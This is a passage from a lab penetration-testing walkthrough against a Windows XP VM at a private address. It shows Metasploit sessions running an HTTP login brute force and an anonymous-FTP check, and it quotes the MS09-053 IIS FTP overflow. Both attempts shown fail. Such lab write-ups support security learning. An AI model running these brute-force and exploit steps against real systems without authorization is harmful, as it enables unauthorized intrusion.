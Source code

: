 Once the word list was ready, I used the `auxiliary/scanner/http/http_login` Metasploit module to attempt the brute force, but all attempts failed:

```shell_session
msf > use auxiliary/scanner/http/http_login
msf auxiliary(http_login) > set PASS_FILE bobby_words.txt
PASS_FILE => bobby_words.txt
msf auxiliary(http_login) > set USER_FILE bobby_words.txt
USER_FILE => bobby_words.txt
msf auxiliary(http_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(http_login) > set AUTH_URI /localstart.asp
AUTH_URI => /localstart.asp
msf auxiliary(http_login) > set RHOSTS 192.168.1.11
RHOSTS => 192.168.1.11
msf auxiliary(http_login) > run

****

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Getting FTP Access
All the attempts I had made on the HTTP server had failed, with no clear way to continue on that front, so I moved on to looking into the FTP server to see what was possible.

Searching Metasploit for Windows FTP exploits revealed [MS09-053](https://technet.microsoft.com/en-us/library/security/ms09-053.aspx) - a buffer overflow which can lead to remote code execution:

>  This module exploits a stack buffer overflow flaw in the Microsoft
  IIS FTP service. The flaw is triggered when a special NLST argument
  is passed while the session has changed into a long directory path.
  For this exploit to work, the FTP server must be configured to allow
  write access to the file system (either anonymously or in
  conjunction with a real account)

I suspected there's not much chance that anonymous FTP access would be enabled, but decided to test for it anyway, just in case:

```shell_session
msf > use auxiliary/scanner/ftp/anonymous
msf auxiliary(anonymous) > hosts -R

Hosts
=====

address       mac                name          os_name     os_flavor  os_sp  purpose  info  comments
-------       ---                ----          -------     ---------  -----  -------  ----  --------
192.168.1.11  08:00:27:12:1d:ed  192.168.1.11  Windows XP                    client         

RHOSTS => 192.168.1.11

msf auxiliary(anonymous) > run

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
